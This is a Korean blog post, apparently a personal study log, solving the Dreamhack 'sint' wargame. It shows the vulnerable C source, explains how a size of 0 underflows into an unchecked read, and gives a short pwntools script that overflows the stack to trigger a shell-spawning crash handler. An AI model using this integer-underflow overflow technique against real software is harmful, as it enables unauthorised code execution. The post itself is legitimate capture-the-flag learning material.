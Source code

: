 ```yaml
---
title:  "TIL: Type Error"
excerpt: "2022.08.24 TIL ✍"
toc: true
toc_sticky: true

categories:
  - TIL
  - Hacking
---
```


## Wargame: [sint](https://dreamhack.io/wargame/challenges/25/)

문제의 소스 코드는 아래와 같다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[256];
    int size;

    initialize();

    signal(SIGSEGV, get_shell);

    printf("Size: ");
    scanf("%d", &size);

    if (size > 256 || size < 0)
    {
        printf("Buffer Overflow!\n");
        exit(0);
    }

    printf("Data: ");
    read(0, buf, size - 1);

    return 0;
}
```

### Vulnerability Scanning

- `checksec`
    
    <p align="center">
        <a href="/assets/images/TIL220824/Untitled.png">
            <img src="/assets/images/TIL220824/Untitled.png" width="300">
        </a>
    </p>
    
- `read(0, buf, size - 1);`에서 `size`의 값을 잘 입력하면 **BOF**를 일으킬 수 있다.
    - `size`의 값이 `size > 256 || size < 0`일 것을 요구하고 있으나, **type casting으로 인해 생기는 underflow를 활용**하면 `size`를 256보다 큰 값으로 설정할 수 있다.
- `signal(SIGSEGV, get_shell);` → **Segmentation fault가 일어나면** `get_shell`**을 실행**하므로 seg fault만 발생시키면 shell을 획득할 수 있다.

### Underflow

이 문제는 `size > 256 || size < 0`이라는 조건문으로 `size`의 값을 제한하고 있으나, `size`를 0으로 줄 경우 `size`를 256보다 큰 값으로 설정할 수 있다.

`read`의 형태는 `ssize_t read (int fd, void *buf, size_t nbytes)`으로, `size`**를** `size_t`**로 cast**함을 알 수 있다. 이때 `size_t`는 `unsigned int`이므로, `size`를 0으로 주면 `size - 1`, 즉 -1이 unsigned int로 cast되고, 이 값은 곧 **UMax**가 된다. → BOF를 일으킬 수 있다.

### Exploit

```python
from pwn import *

#p = process("./sint")
#gdb.attach(p)
p = remote("host3.dreamhack.games", 8302)

p.sendlineafter("Size: ", "0")

p.sendafter("Data: ", b"A"*(0x100 + 0x60 + 0x8 + 0x8))

p.interactive()
```

- `gdb`를 이용해 stack frame의 구조를 파악한 후 `main`의 return address에 dummy 값인 “AAAAAAAA”를 입력한다. → Seg fault가 발생해 shell을 획득할 수 있다.